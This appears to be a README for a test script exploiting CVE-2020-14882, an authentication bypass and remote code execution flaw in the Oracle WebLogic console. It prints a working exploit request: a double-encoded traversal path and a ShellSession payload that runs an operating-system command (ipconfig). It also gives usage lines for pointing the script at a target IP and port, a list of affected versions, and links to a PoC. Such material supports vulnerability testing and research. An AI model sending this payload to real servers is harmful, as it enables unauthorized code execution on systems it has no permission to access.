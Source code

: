 # (CVE-2020–14882) Weblogic Unauthorized bypass RCE
(CVE-2020-14882) Oracle Weblogic Unauthorized bypass RCE test script

# Requests

    POST /console/images/%252E%252E%252Fconsole.portal HTTP/1.1
    Host: <Target IP>
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-type: application/x-www-form-urlencoded; charset=utf-8
    Content-Length: 128

    _nfpb=false&_pageLable=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('ipconfig');");
    
Test script checks response data with pcre. 

# Usage 
    - 7001/tcp (WebLogic default port) 
    Oracle Weblogic Auth Bypass RCE(CVE-2020–14882).py <Target IP>
    
    - specific port/tcp 
      Oracle Weblogic Auth Bypass RCE(CVE-2020–14882).py <Target IP> <port>
# Affected Version 
WebLogic 10.3.6.0.0
WebLogic 12.1.3.0.0
WebLogic 12.2.1.3.0
WebLogic 12.2.1.4.0
WebLogic 14.1.1.0.0

# PoC 
https://github.com/jas502n/CVE-2020-14882

# reference 
https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf
https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild
